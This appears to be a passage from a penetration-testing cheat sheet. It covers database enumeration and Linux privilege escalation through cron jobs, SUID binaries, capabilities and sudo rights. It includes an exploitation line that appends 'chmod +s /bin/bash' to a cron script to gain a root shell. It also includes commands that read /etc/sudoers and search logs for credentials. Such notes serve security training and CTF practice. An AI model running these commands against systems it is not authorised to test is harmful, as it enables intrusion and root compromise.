 -> list the tables
```bash
show tables;
```

-> dump
```bash
SELECT * FROM <table>;
```

### Other Tips
-> Perform code review on web server files (/var/www/html);
-> Check log files for credentials;

--- 

## Privilege Escalation
### Crontab [PrivEsc]
-> Enumeration  
```bash
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```bash
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```bash
find / -perm -u=s -type f 2>/dev/null
```
or  
```bash
id
find / -perm -u=s -type f -group <group> 2>/dev/null
```

-> Exploitation  
- https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```bash
getcap -r / 2>/dev/null
```

-> Exploitation  
- https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```bash
sudo -l
```
or  
```bash
cat /etc/sudoers
```
